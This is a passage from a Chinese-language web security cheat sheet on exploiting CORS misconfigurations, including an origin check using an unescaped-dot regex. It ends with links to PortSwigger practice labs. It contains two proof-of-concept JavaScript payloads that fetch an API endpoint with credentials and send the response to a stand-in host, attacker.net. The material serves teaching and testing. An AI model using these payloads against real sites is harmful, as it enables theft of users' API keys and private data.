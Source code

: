 #### 概念验证（示例1）

此PoC需要在`evilexample.com`上托管相应的JS脚本。

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://api.example.com/endpoint',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText;
};
```

#### 易受攻击的实现（示例2）

在这种情况下，服务器使用的正则表达式中点号没有正确转义。例如，类似这样的正则表达式：`^api.example.com$` 而不是 `^api\.example.com$`。因此，点号可以被替换为任何字母，以从第三方域获得访问权限。

```markdown
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true

{"[私有API密钥]"}
```

#### 概念验证（示例2）

此PoC需要在`apiiexample.com`上托管相应的JS脚本。

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://api.example.com/endpoint',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText;
};
```

## 实验室

- [CORS漏洞与基本来源反射](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
- [CORS漏洞与受信任的空来源](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
- [CORS漏洞与受信任的不安全协议](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
- [CORS漏洞与内部网络中心攻击](https://portswigger.net/web-security/cors)
